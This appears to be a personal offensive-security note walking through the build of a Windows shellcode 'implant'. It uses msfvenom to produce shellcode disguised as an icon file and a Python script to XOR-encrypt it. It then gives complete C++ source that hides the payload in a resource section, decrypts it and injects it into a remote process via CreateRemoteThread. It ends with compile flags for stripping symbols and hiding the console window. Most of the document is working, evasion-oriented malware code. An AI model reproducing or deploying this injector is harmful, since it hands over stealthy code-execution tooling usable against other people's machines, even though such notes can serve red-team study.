

![[Pasted image 20260304153300.png]]


###  **Step 1 preparation Custom XOR & Shellcode**

> [!danger] MSF
>```bash
>msfvenom -p windows/x64/exec --platform windows -a x64 CMD=calc.exe -f raw -o calc.ico
>```

> [!example]- Python XOR Script
>```python
> import sys
> 
> KEY = b"mysecretkeee"
> 
> def xor_cipher(data: bytes, key: bytes) -> bytes:
>    key_len = len(key)
>    if key_len == 0:
>        return data
>    return bytes(data[i] ^ key[i % key_len] for i in range(len(data)))
> 
> def print_ciphertext(data: bytes):
> 
>    hex_values = [f"0x{b:02x}" for b in data]
> 
>    for i in range(0, len(hex_values), 16):
>         chunk = hex_values[i:i+16]
>         line = ", ".join(chunk)
>         if i + 16 < len(hex_values):
>             line += ","
> 
>         print(line)
> 
> def main():
>    if len(sys.argv) < 2:
>        print(f"Usage: {sys.argv[0]} <raw_payload_file>")
>        sys.exit(1)
> 
>    try:
>        with open(sys.argv[1], "rb") as f:
>            plaintext = f.read()
>            ciphertext = xor_cipher(plaintext, KEY)
>            print_ciphertext(ciphertext)
> 
>    except FileNotFoundError:
>        print(f"Error: File '{sys.argv[1]}' not found.")
>        sys.exit(1)
>    except Exception as e:
>        print(f"Error: {e}")
>        sys.exit(1)
> 
> if __name__ == "__main__":
>    main()
>```

###  **Step 2 Create Injector**

![[Pasted image 20260304150824.png]]


> [!danger]- Shellcode Injection To Remote Process Via XOR In rsrc Section
>```cpp
>#include <windows.h>
>#include <tlhelp32.h>
>#include <iostream>
>#include "resources.h"
>
>const BYTE key[] = "mysecretkeee";
>VOID Decripter(BYTE *data, size_t data_len,const BYTE *key, size_t key_len) {
>   if (!data || !key || key_len == 0) return;
>   for (size_t i{}; i < data_len; i++) {
>       data[i] ^= key[i%key_len];
>   }
>}
>
>DWORD EnumProc(const std::wstring &programname){
>    HANDLE Hsnp{CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0)};
>    if(Hsnp == INVALID_HANDLE_VALUE){
>        std::wcerr << "[-] Faild To Getsnapshot ERROR: " << GetLastError();
>        return 0;
>    }
>    PROCESSENTRY32W lppe{};
>    lppe.dwSize = sizeof(PROCESSENTRY32W);
>    Process32FirstW(Hsnp,&lppe);
>
>    do{
>        if(lstrcmpW(lppe.szExeFile,programname.c_str()) == 0){
>            CloseHandle(Hsnp);
>            return lppe.th32ProcessID;
>        }
>    }
>    while(Process32NextW(Hsnp,&lppe));
>
>    CloseHandle(Hsnp);
>    return 0;
>}
>
>int main(){
>    std::wstring procname;
>    std::wcout << "[+] Enter Process Name: ";
>    std::wcin >> procname;
>    procname += L".exe";
>    if(procname.empty()){
>        std::wcout << "[-] Please Enter Process Name Without .exe extention\n";
>        return 1;
>    }
>    DWORD PID{EnumProc(procname)};
>    if(!PID){
>        std::wcout << "[-] ProcID Not Found\n";
>        return 1;
>    }
>
>    HRSRC hsrc{FindResource(nullptr,MAKEINTRESOURCE(FAVICON_ICO),RT_RCDATA)};
>    if(!hsrc){
>        std::wcerr << "[-] Fail to Find Resource ERRORCODE : " << GetLastError();
>        return 1;
>    }
>    HGLOBAL Hglobal {LoadResource(nullptr,hsrc)};
>
>    if(!Hglobal){
>        std::wcerr << "[-] LoadResource failed ERRORCODE : " << GetLastError();
>        return 1;
>    }
>    LPVOID payload{LockResource(Hglobal)};
>    if(!payload){
>         std::wcerr << "[-] LockResource failed ERRORCODE : " << GetLastError();
>         return 1;
>    }
>
>    DWORD payloadsz{SizeofResource(nullptr,hsrc)};
>    if(!payloadsz){
>        std::wcerr << "[-] sizeofresource failed ERRORCODE : " << GetLastError();
>        return 1;
>    }
>    size_t keysz{(sizeof key) -1};
>    
>    HANDLE hproc{OpenProcess(
>    PROCESS_VM_READ
>    |PROCESS_VM_WRITE
>    |PROCESS_CREATE_THREAD
>    |PROCESS_VM_OPERATION
>    |PROCESS_QUERY_INFORMATION,0,PID)};
>    if(!hproc){
>        std::wcout << "[-] Faild To Get Handle Of Target Process\n";
>        return 1;
>    }
>
>    LPVOID Execution{VirtualAllocEx(hproc,nullptr,payloadsz,MEM_COMMIT | MEM_RESERVE,PAGE_READWRITE)};
>    if(!Execution){
>        std::wcout << "[-] Fail To Allocate Mem ReadWrite\n";
>        CloseHandle(hproc);
>        return 1;
>    }
>
>     PVOID ExecutionLocal = VirtualAlloc(nullptr,payloadsz,MEM_COMMIT|MEM_RESERVE,PAGE_READWRITE);
>     RtlCopyMemory(ExecutionLocal,payload,payloadsz);
>     Decripter(reinterpret_cast<BYTE*>(ExecutionLocal),payloadsz,key,keysz);
>
>    if(!WriteProcessMemory(hproc,Execution,ExecutionLocal,payloadsz,nullptr)){
>        std::wcout << "[-] Fail To Write target Proc Memory\n";
>        CloseHandle(hproc);
>        VirtualFreeEx(hproc,Execution,payloadsz,MEM_RELEASE);
>    }
>
>    DWORD old;
>    if(!VirtualProtectEx(hproc,Execution,payloadsz,PAGE_EXECUTE_READ,&old)){
>        std::wcout << "[-] Fail To Write target Proc Memory\n";
>        CloseHandle(hproc);
>        VirtualFreeEx(hproc,Execution,payloadsz,MEM_RELEASE);
>    }
>    
>    HANDLE t1{CreateRemoteThread(hproc,nullptr,0,reinterpret_cast<LPTHREAD_START_ROUTINE>(Execution),nullptr,0,0)};
>    if(!t1){
>        std::wcout << "Remtoe Thread Faild To Execution\n";
>        CloseHandle(hproc);
>        VirtualFreeEx(hproc,Execution,payloadsz,MEM_RELEASE);
>        return 1;
>    };
>
>    WaitForSingleObject(t1,INFINITE);
>
>       CloseHandle(t1);
>       CloseHandle(hproc);
>       
>    return 0;
>}
>```
>## Resource Configuration
>
>> [!info]+ resources.rc
>> ```c++
>> #include "resources.h"
>> 
>> FAVICON_ICO RCDATA favicon.ico
>> ```
>
>> [!info]+ resources.h
>> ```c++
>> #define FAVICON_ICO 100
>> ```
>
>  ### Compile Time
>> [!hint]+ Windows Build (cl.exe)
>> ```batch
>> @ECHO OFF
>> rc resources.rc
>> cvtres /MACHINE:x64 /OUT:resources.o resources.res
>> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
>> ```
>
>> [!hint]+ MinGW Compiler Without Stripped (For Debug)
>> ```bash
>> x86_64-w64-mingw32-windres resources.rc resources.o
>> ```
>> ```bash
>> x86_64-w64-mingw32-g++ implant.cpp resources.o -O0 -g -fno-stack-protector -Wl,-subsystem,console -o implant_debug.exe
>> ```
>
>> [!hint]+ MinGW Compiler With Stripped
>> ```bash
>> x86_64-w64-mingw32-windres resources.rc resources.o
>> ```
>> ```bash
>> x86_64-w64-mingw32-g++ implant.cpp resources.o -O2 -static -s -fno-stack-protector -DNDEBUG -Wl,-subsystem,console -o implant.exe
>> ```


> [!cite]- 🛡️ Hide Console & Static Compilation (Click to Expand)
> Compile a C/C++ application without a console window (GUI subsystem) and ensure it is **portable** (works on any system without external DLLs) by using **static linking**.
>  you can use FreeConsole() API Function Or overwrite Main Function To WinMain
> ###  📜 Step 1: Code Modification
> Replace `main` with `WinMain` to align with the Windows GUI subsystem.
> ```c
>#include <windows.h>
>
>int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
>LPSTR lpCmdLine, int nCmdShow) {
>// Your logic here
>return 0;
>}
>```
>### ⚙️ Step 2: Compilation Commands
>
>#### A. MSVC (Microsoft Compiler)
>Use `/MT` for static runtime linking and `/SUBSYSTEM:WINDOWS` to hide the console.
>```
>@ECHO OFF
>cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /TCimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:WINDOWS /MACHINE:x64
>```
> - **/MT **: **Critical**. Statically links the C runtime (no VCRUNTIME DLL needed).
> - **/SUBSYSTEM:WINDOWS**: Hides the console window.
> #### B. MinGW-w64 (GCC)
> Use -static for static linking and -mwindows to hide the console.
>```bash
x86_64-w64-mingw32-gcc -o implant.exe implant.c -Wno-main -mwindows -static -O2 -s -DUNICODE -D_UNICODE -lkernel32 -luser32
>```
> - **-static**: **Critical**. Bundles all libraries (libgcc, libstdc++) into the binary.
> - **mwindows**: Hides the console window (creates a Windows GUI app).
> - **Wno-main**: Silences warnings about missing main.
